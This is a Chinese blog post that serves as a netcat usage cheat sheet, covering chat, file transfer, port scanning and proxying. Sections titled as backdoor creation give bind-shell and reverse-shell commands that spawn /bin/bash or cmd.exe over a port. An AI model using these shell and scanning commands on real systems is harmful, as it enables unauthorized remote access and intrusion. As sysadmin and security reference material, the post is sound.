 # nc使用 - Emmoblin Blog

Chat
```
# 发送端
nc -l 3333
# 接受端
nc 127.0.0.1 3333
```

传送文件
```
# 发送端  
`cat backup.iso | nc -l 3333`  
# 接收端  
`nc 192.168.0.1 3333 > backup.iso`  
```

  
显示传送进度，可以使用管道监控,pv命令  
```
`cat backup.iso | pv -b | nc -l 3333`  
`nc 192.168.0.1 3333 | pv -b > backup.iso`  
```

  
本地打包文件，传送到远端  
```
`tar -czf - /etc/ | nc -l 3333`  
`nc 192.168.0.1 3333 | pv -b > mybackup.tar.gz`  
```

端口扫描
```
扫描端口，并返回相关信息
nc -z 192.168.0.1 80-90
```

如何正确的加密聊天
```
nc -l 3333
ssh  yantze@192.168.2.38 sleep 1; nc 127.0.0.1 3333
```

如何正确的创建后门
```
nc -l 3333 -e /bin/bash
nc -l 3333 -e cmd.exe
nc 127.0.0.1 3333
```

如何逆向后门
```
nc -l 3333
nc 127.0.0.1 3333 -e /bin/bash
```

指定代理方式
>Connect to port 42 of host.example.com via an HTTP proxy at 10.2.3.4, port 8080.  This example could also be used by ssh(1); see the ProxyCommand directive in ssh_config(5) for more information.
```
nc -x10.2.3.4:8080 -Xconnect host.example.com 42
```


## 资料
- https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf
- http://www.g-loaded.eu/2006/11/06/netcat-a-couple-of-useful-examples/
- https://dragula.viettug.org/blogs/263.html
